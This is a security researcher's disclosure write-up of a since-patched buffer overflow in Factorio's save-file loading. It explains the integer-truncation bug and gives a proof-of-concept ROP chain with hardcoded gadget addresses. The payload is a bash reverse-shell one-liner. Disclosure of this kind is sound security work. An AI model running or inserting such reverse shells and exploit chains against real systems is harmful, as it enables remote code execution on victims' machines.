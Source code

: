 # Abstract

In September 2023 we found a buffer overflow vulnerability in Factorio.
This vulnerability allows for arbitrary code execution when loading or previewing a modified save file.
A fix has been released with game version 1.1.94 on October 30th 2023.

# Factorio

[Factorio](https://factorio.com/) is a factory automation game.

It's very popular among computer science students,
as it's the best parts of programming without any of the boring/exhausting parts.

## Finding the bug

Opening factorio in IDA to reverse engineer was just a fun project, but since
I am very interested in security understanding the parsers was a first goal.
Most of it seemed pretty sane and uses C++ dynamic sized types.

There's not really a lot to say about how to reverse engineer a game, you open
it in a disassembler, attach a debugger, find resources online and just piece
stuff together piece by piece. At this point a big thanks to the developers for
giving us debug symbols, however they could at least enable PIE.

There's not really a lot to say, except that following strings and function names
into level loading code until I found the part which loads property-trees from
maps, again it seems sane in that it always tries to allocate enough memory for
the entire data part.

![Screenshot of IDA with the line containing the bug being highlighted](img/bug.png)

## The bug

The bug lies within the way this number of bytes to allocate is computed. Because
the number is cast to a 32-bit integer we can enter a number such that this value
gets too small (and thus we will be able to overwrite a whole bunch of stuff on the heap)

Namely this will always give us an overflow of (a multiple of) 4gb.
However since we only read 4 bytes as size the only way we will overflow if this is
exactly one byte short of 4 gigabyte. Sadly this means that
the mapfile also needs to be this big, else the mapdeserializer will complain that
there simply is not enough data to even attempt deserialization.

There also exists a small piece to implement a custom operator new[] in this C++
project, which first checks if the size to allocate is zero, if yes it will set it to 1
(e.g. no allocation will return nullptr), then it will go into a while true to try
and allocate with malloc and then the `std::get_new_handler` way.

![Screenshot of the new handler in IDA](img/newhandler.png)

## The exploit:

We are developing the proof of concept exploit on an `amd64` linux machine,
and are using the **linux native** version of factorio.

### Recon:

If we inspect the factorio binary with `checksec`, we get the following:

![checksec](img/checksec.png)

The game itself is written in C++ and compiled as a **non position independent executable**.
This allows us to hardcode any addresses we need for our exploit,
without having to worry about ASLR.

As we have an overflow of ~4GiB in size, we will overwrite a massive section of the program heap.

The first step is to create a fake save file with modified size specifications,
filled with a [non-repeating pattern](https://en.wikipedia.org/wiki/De_Bruijn_sequence).
Once we preview this save file, factorio will crash with a segmentation fault.
If we attach a debugger,

```
gdb attach (ps aux | grep factorio | grep "x64/factorio" | sed -e 's/  */,/g' | cut -d ',' -f2)
```

we can observe multiple crashes:
![music_mixer_thread](img/music_mixer_thread.png)
This appears to a thread responsible for audio.
It's attempting to read from an invalid address (we have seeded `rsi` with our pattern).
This does not appear to be immediately exploitable, so we continue our search.

![main_thread](img/worker_thread.png)
The next thread is a worker thread.
Immediately we notice multiple interesting things:

1. The thread is attempting to execute a jump
   ![jump](img/jump.png)
2. The jump target is read from the location pointed at by `rbx + 0x40`
3. `RBX` is pointing into our pattern --> we control the jump target
   ![rbx](img/rbx.png)
4. `RSP` is also pointing into our pattern --> we control the stack of this thread
   ![rsp](img/rsp.png)

--> We can use this to build a ROP chain and execute arbitrary code

### Chain construction:

We can not simply write shellcode into our pattern, as the heap is marked as non-executable.
Instead, we will use a technique
called [return oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming).
Essentially, we will reuse a series of existing instructions in the factorio binary to construct our exploit.

[Ropper](https://github.com/sashs/Ropper) reports `638593 gadgets found`.

As we have plenty of space on the chain and don't want to bother ourselves with the libc,
we will manually execute a syscall.

We only need 4 gadgets:

1. `0x4128c8: pop rax; ret;` --> load syscall number into `rax`
2. `0x4121bf: pop rdi; ret;` --> load first argument into `rdi`
3. `0x41233d: pop rsi; ret;` --> load second argument into `rsi`
4. `0x432a96: syscall;` --> execute syscall
5. `0x1c76e18: mov qword ptr [rax], rsi; ret;` --> modify memory (used to specify target program and arguments)

We will execute a simple reverse shell:
```bash
sh -i >& /dev/tcp/127.0.0.1/1337 0>&1
```

## Reporting process
